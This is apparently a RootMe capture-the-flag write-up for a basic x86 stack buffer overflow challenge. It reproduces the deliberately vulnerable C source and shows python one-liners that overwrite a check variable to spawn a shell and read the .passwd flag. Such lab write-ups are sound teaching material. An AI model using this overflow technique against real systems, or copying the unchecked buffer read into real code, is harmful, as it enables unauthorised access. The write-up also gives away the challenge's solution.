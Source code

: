 # ELF x86: Stack buffer overflow basic 1

[RootMe challenge: ELF x86 - Stack buffer overflow basic 1](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-1?lang=en): An intermediate level to familiarize yourself with stack overflows.

Environment configuration:

```text
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomisation 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 
```

Given code:

```text
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

----

Apparently, the goal is to change the `check` variable to `0xdeadbeef` (Endian).

```text
app-systeme-ch13@challenge02:~$ python -c "print 'A'*40 + 'DDDD'" | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
[check] 0x44444444

You are on the right way!
```

```text
app-systeme-ch13@challenge02:~$ cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
cat .passwd
```

## Resources

* [Débordement de tampon - dans la pile](https://www.root-me.org/spip.php?article807)
* [François Boisson : Buffer Overflow ou explication de "une faille de type bufferoverflow"](https://www.youtube.com/watch?v=u-OZQkv2ebw)
* [Buffering in standard streams](https://repository.root-me.org/Administration/Unix/Linux/EN%20-%20buffering%20in%20standard%20streams.pdf)
* [Stack Bug - Exploitation avancee de buffer overflow](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/FR%20-%20Stack%20Bug%20-%20Exploitation%20avancee%20de%20buffer%20overflow.pdf)
* [Exploiting Stack Buffer Overflows in the Linux x86 Kernel](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Exploiting%20Stack%20Buffer%20Overflows%20in%20the%20Linux%20x86%20Kernel.pdf)
